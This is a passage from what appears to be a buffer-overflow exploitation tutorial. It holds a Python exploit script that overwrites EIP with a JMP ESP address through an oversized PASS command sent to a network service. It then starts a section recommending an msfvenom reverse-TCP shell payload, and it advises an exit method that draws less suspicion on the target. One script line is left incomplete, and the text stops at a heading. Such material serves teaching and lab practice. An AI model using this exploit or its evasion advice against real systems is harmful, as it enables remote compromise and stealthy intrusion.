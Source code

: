 ```
# Usable JMP ESP at rev(0x65d11d71)_______________ (little-endian hex addr)   #MOD

sploit  = ""
sploit += ""           # protocol reqts
sploit += ""           # badchar test
sploit += ""           # pattern_create                                       
sploit += "A" * 69     # splat                                                
sploit += "\x71\x1d\xd1\x65"      # eip                                       #MOD
sploit += ""           # nopsled
sploit += ("C" * 375) + ("D" * 2000)    # payload                             
sploit +=              # nopsled

#################### Communication

# Standup
printinfo(["Creating socket ..."])
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
printinfo(["Connecting to", ip, "on port", port, "..."])
connect = s.connect((ip, port))
s.recv(1024)

# Interact
printinfo(["Sending username \"test\" ..."])
s.send('USER test\r\n')
s.recv(1024)
printinfo(["Sending password of", len(sploit), "bytes..."])
s.send('PASS ' + sploit + '\r\n')

# Result
printresult(["Exploit sent. Attack complete."])

# Teardown
printinfo(["Quitting connection."])
s.send('QUIT\r\n')
s.close()
```

Part V: Generate shellcode.
================================================================================

### Discussion

A reasonable payload for our Windows-based target is a reverse-TCP shell. We use msfvenom to generate the shellcode. Be sure to pick an exit method that doesn't crash the host process (e.g., ExitProcess) if that's not desired behavior. Threaded applications can use ExitThread instead, which only kills the affected thread within the program. This is important for re-receiving your connection if the existing one drops or is closed. Also, it sets a less suspicious behavior pattern on the target system.

### [1] Generate the shellcode.
